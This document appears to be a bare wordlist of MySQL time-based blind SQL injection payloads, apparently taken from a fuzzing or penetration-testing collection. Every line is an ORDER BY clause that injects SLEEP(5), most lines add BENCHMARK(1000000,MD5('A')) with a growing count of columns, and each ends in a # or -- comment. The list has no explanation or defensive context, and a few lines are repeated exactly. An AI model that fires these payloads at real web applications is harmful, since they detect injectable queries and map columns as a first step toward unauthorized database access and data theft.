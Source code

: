 ```
 ORDER BY 1,SLEEP(5),3#
 ORDER BY 1,SLEEP(5),3,4#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 ORDER BY SLEEP(5)-- 
 ORDER BY 1,SLEEP(5)-- 
 ORDER BY 1,SLEEP(5),3-- 
 ORDER BY 1,SLEEP(5),3,4-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
```